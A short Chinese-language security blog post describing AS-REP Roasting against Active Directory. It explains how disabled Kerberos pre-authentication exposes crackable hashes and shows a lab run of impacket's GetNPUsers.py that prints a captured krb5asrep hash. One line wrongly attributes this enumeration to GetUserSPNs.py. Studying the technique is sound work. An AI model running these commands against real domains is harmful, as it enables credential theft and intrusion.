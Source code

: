 ```yaml
---
title: AS_REP Roasting
published: 2025-03-09 16:46:27
tags: [内网安全,域渗透]
category: 安全
draft: false
---
```


# AS_REP Roasting

## 原理

当被攻击账号设置的是"不需要`kerberos`预身份验证"模式后（默认不勾选，所以比较局限）。相当于跳过的AS的验证，在AS_REP过程就可以任意伪造用户请求票据。`Kerberos` 预身份验证发生在 

`Kerberos` 身份验证的第一阶段（`AS_REQ&AS REP`），它的主要作用是防止密码离线爆破。默认情况下，预身份验证是开启的，`KDC` 会记录密码错误次数，防止在线爆破。

当关闭了预身份验证后，攻击者可以使用指定用户向域控制器的 `Kerberos 88` 端口请求票据，此时域控不会进行任何验证就将 TGT 和该用户 Hash 加密的 Login Session Key 返回。因此，攻击者就可以对获取到的用户 `Hash` 加密的 `Login Session Key` 进行离线破解，如果字典够强大，则可能破解得到该指定用户的明文密码。

## 实验

通过`impacket` 中的`GetNPUsers.py`能够找出那些在域中设置了 "无需 `Kerberos` 预认证" 的用户。将TGT和该用户Hash加密的Login Session Key 返回

通过 `GetUserSPNs.py` 枚举出关闭了预认证的用户，将TGT和该用户Hash加密的Login Session Key 返回

```python
GetNPUsers.py -dc-ip 192.168.56.126 SOUPEDECODE.LOCAL/ -usersfile username.txt | grep 'SOUPEDECODE.LOCAL' 
/root/.local/bin/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
$krb5asrep$23$zximena448@SOUPEDECODE.LOCAL:fecb2e188b7b15d1a4ed208f1c2e462b$3f348276b715378bf6aece608de90fa7134900b6439f45fbc3cd3081dad69bceb94c332b5de16f17e2beabe48da6f5809835b440002fdcb615f4bfa9f0041affd29bbdf6b425d48216d03c5cb624b646e366e3186a2ecfd6cbe2631ef6540094d238de54e4353055ecc2bc8694a3fe53e0a68b99f339311540ed0033dad48d23b59b8568355a6adc48fe221793024cfdec3c1acee051fde18bc455aef282d44c1c5388fadc5a4908b2b8c35a9cb8655d1db7189880541995043f5321306a3778105f6e2079ccad5111ac5589f490d32ce03c12006fce2722aeb10211529818cd2e7cbcaf82862261b58f0775eb9e224651164c55585e
```

拿到用户`zximena448@SOUPEDECODE.LOCAL`的`Login Session Key`

下一步就是破解